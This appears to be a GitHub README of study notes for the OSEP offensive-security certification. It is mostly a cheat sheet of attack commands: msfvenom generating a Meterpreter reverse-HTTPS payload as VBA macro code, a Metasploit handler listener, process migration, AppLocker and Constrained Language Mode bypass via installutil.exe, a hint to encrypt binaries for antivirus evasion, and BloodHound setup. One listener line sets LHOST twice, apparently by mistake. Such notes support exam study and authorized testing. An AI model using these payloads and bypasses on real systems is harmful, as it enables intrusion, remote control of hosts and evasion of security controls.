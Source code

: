 # OSEP-Prep-Notes
OSEP Prep Notes



# Kali File Transfer Server

python -m uploadserver 8000

# RDP with xFreeRDP

xfreerdp /u:USERNAME /p:PASSWORD /w:1366 /h:768 /v:SERVER_IP

# VBA Application Script

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.xx.xx LPORT=443 EXITFUNC=thread -f vbapplication

# Listen With Meterpreter

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST OUR_KALI_IP
set LHOST 443
set EXITFUNC thread
run
```

# Post Exploitation - Migrate To Another Process

```
ps
> find a suitable process (like notepad.exe etc.)

migrate PID_OF_PROCESS
> the migration is success.

run post/windows/manage/migrate
> You should try this too.
```

# Post Exploitation - Find Readable and Writable Folders
This program is blocked by group policy. For more information, contact your system administrator.
```
accesschk.exe "PWNED_USERNAME" C:\Windows -wus
> Find a RW folder and use the folder for AppLocker Bypass.

or in "powershell -ep bypass"
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

# Post Exploitation - Find Executable in Folders:
```
icacls C:\Windows\Tasks
> Find a folder that you have the RX permission.
```

# Post Exploitation - Bypass CLM and AppLocker:
```
> Compile Bypass_CLM_And_AppLocker_Dynamically.cs and get the exe. Upload the exe to the machine. Maybe you should encrypt for Antivirus Evasion.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U bu.exe
> Run with suitable installutil.exe to bypass.
```

# Bloodhound - Init
```
neo4j console
> Open bloodhound app in Kali after the neo4j started.
>localhost:7474 neo4j:neo4j

```
